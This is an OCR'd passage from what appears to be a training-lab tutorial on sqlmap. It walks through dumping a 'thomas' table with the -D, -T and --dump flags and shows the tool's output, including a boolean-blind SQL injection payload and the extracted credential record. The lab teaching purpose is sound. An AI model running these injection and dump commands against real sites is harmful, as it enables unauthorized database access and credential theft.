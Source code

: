 +-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
Now that we have all the available table names of the database, let's dump the records present in the thomas table. To do so, we will define the database with the -D flag, the table with the -T flag, and for extracting the records of the table, we will use the --dump flag.

Extracting records from a table
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+
